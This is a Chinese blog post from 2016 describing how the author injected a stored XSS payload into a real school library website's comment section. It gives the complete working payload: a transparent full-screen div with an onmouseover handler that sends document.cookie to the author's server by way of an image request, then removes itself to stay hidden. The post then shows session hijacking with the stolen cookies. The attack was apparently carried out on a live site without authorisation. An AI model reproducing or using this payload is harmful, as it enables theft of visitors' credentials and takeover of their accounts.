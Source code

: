 ```yaml
---
title: XSS持久型攻击实例--向学校图书馆网站页面注入JS
date: 2016-04-16 00:28:27
tags:
- xss
- web
- javascript
-categories:
- javascript
---
```


XSS攻击是Web中很常见的攻击，其原理有点类似与SQL注入，改变了原来的执行逻辑。之前了解过一些XSS，但是没有去具体实现，刚刚拿学校的网站做了下XSS攻击，成功的给图书馆网站下了毒+_+...

XSS攻击大概可以分为两种，一种是非持久型攻击，这一般只会影响个体用户，不会造成长期的影响，另一种为持久型攻击，也就是我们要讲的这种，将我们的代码注入到目标服务器页面上，所有访问这个页面的用户都会被攻击。其实之前没有去具体实现因为比较“出名”的网站一般在防XSS上做的比较完善，不好去找漏洞，所以才拿学校网站做测试(以前经常这样干抓数据什么的。。。)，在最后我们实现的是向页面中注入自己的js代码，并将访问该页面用户的cookie信息传到我自己的服务器上。

# 找到漏洞
XSS一般会发生在提交表单或者其他与服务器交互的场景中，然而好像学校网站基本没有可以用户自己回复信息，发布信息什么的，但是记得好像学校图书馆的页面可以评论，就拿这个测试了。

![images/lib-cqut-1.png](images/lib-cqut-1.png)

<!--more-->

在这里我测试了几次，前端只是对内容长度进行了过滤，但是没有对内容进行正则匹配非法字符。一开始我直接上script，但是被后端程序处理掉了，看来还是有点点防范的。后面我又试了HTML标签，发现div没有被过滤，开始激动了。。。

# 编写注入程序
这里我们找到了js注入的入口，通过div标签来当跳板，但是如何将js放到里面执行呢？我想到的是通过事件，但是如何来触发事件？div没有onload事件，怎么让div一被加载就执行我们的脚本呢？我用一种比较巧妙的方法来实现了。

通过mouseover事件来触发我们的脚本，那么如何保证事件一定会被触发？我的做法是：
```css
position: absolute; //让插入的div脱离标准文档流
width: 100%; //占满屏幕
height: 100%;
background-color: blue; //给个颜色方便测试
z-index: 1000; //让div提升到最上层，但不能绝对保证
```
我设置了个绝对定位的div，大小为屏幕大小，z-index设置了出现在z轴上的位置，尽量大，基本上在页面上的最顶层了，这样mouseover事件99%会被触发(除非打开页面后你直接用ctrl+w关闭了页面，或者浏览器爆炸，关机)，下面是完整的css样式：
```css
position: absolute;
width: 100%;
height: 100%;
background-color: blue;
filter: alpha(opacity=0);
opacity: 0;
-moz-opacity: 0;
-webkit-opacity: 0;
-ms-opacity: 0;
z-index: 1000;
```
设置了透明度和背景只是为了本地的调试，没有什么用，但是之前测试的时候直接向页面提交了带有颜色的div导致打开那个页面的时候所有用户会出现了一个巨大的蓝色div。。。失误

好了最核心的部分来了，写XSS payload：
```javascript
(function xss() {
    var cookie = 'this is cookie ' + document.cookie,
        img = document.createElement('img'),
        el = document.getElementById('xss');

    img.src = 'http://127.0.0.1/index.php?cookie=' + cookie;
    document.getElementById('xss').parentNode.removeChild(el);

    console.log(cookie);
})();
```
这里是个立即执行函数，首先我们拿到了当前用户的cookie并创建了一个img节点，获得了当前我们插入的xss节点，给img节点设置了src，一旦设置了src后这里就会去请求这个地址。这里我们比较巧妙的使用了GET请求来发送数据，一般情况GET是用来获取数据的，但是我们将用户的cookie当成queryString的值发给了我们本地的服务器。这里只是做了测试，实际中的攻击是用真实的服务器。这样我们服务器接受到请求后，就可以查看服务器的访问日志，里面就会包含具体的GET请求，带了用户cookie。

![images/lib-cqut-2.png](images/lib-cqut-2.png)

当时测试时直接用的alert输出，所以在网站的某个页面上，用户访问时会直接弹出一个我插入的alert，包含了当前用户的cookie。。。。失误

最后为了隐蔽我将插入到DOM tree的节点进行了删除，这样又恢复到了正常的状态，但是cookie已经被我们拿走了，通过DIV XSS攻击的完整实现如下：
```javascript
<div id="xss" style="position: absolute;
		width: 100%;
		height: 100%;
		background-color: blue;
		filter: alpha(opacity=0);
		opacity: 0;
		-moz-opacity: 0;
		-webkit-opacity: 0;
		-ms-opacity: 0;
		z-index: 1000;" onmouseover="(function xss() {
			var cookie = 'this is cookie ' + document.cookie,
				img = document.createElement('img'),
				el = document.getElementById('xss');

			img.src = 'http://127.0.0.1/index.php?cookie=' + cookie;
			document.getElementById('xss').parentNode.removeChild(el);

			console.log(cookie);
		})()">
</div>
```
这样我们只要把这段代码回复上去，以后所有访问这个页面的用户就会把自己的cookie发到我们的服务器，下面是实际测试。

# 测试
回复上面的代码，再次访问的时候，控制台悄无声息的输出了当前登陆账户的cookie

![images/lib-cqut-3.png](images/lib-cqut-3.png)

那么此时，我们本地服务器也应该会有结果了，看一下

![images/lib-cqut-4.png](images/lib-cqut-4.png)

在服务器的访问日志上我们可以清楚的看到刚才访问这个页面的用户的时间，页面所有cookie值，UA信息，那么拿到用户的cookie后有什么用？

# 伪造登陆
cookie是用户的登陆凭据，那么我们拿到用户的cookie后就可以直接登陆啦。我们可以以访客的身份浏览这个页面，然后设置当前页面的cookie值，这里可以用浏览器插件实现，chrome下比如说可以用EditThisCookie插件，免费开源一直在用，挺不错的。然后我们把获取到的cookie填入

![images/lib-cqut-5.png](images/lib-cqut-5.png)

这样再次刷新页面，发现我们登陆了。。。。

# 感触
细思恐极，这样一旦XSS攻击成功用户的数据就完全暴露了，这里只是获取了一个cookie，我们完全可以操作DOM搞个登陆框，中奖信息出来，关键是，这个页面还是从你访问的安全站点弹出来的，就算有点安全意识的人也可能防不胜防。最后上面我只是在内网上进行了测试，并没有恶意XSS攻击学校网站，不要查水表。。。
